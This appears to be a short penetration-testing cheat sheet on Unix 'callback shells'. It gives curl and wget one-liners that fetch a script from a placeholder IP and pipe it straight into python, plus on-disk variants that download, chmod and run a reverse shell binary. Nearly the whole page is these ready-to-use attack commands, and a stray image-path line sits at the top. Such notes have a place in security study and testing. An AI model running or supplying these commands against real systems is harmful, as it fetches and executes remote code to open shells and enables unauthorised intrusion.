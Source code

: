 # Unix Shell

## 01 - Basics

### 1.1 - Callback Shell

1. Fileless

`$ curl http[s]://<IP>/shell.py | python`

- If the machine doesn't have `curl` installed you can use `wget` to execute it through memory

`$ wget -qO- http[s]://<IP>/shell.py | python`

2. On Disk

Download reverse shell binary and execute it

```
$ curl -o shell.elf http[s]://<IP>/shell.elf && chmod +x shell.elf && ./shell.elf

$ wget -O shell.elf http[s]://<IP>/shell.elf && chmod +x shell.elf && ./shell.elf
```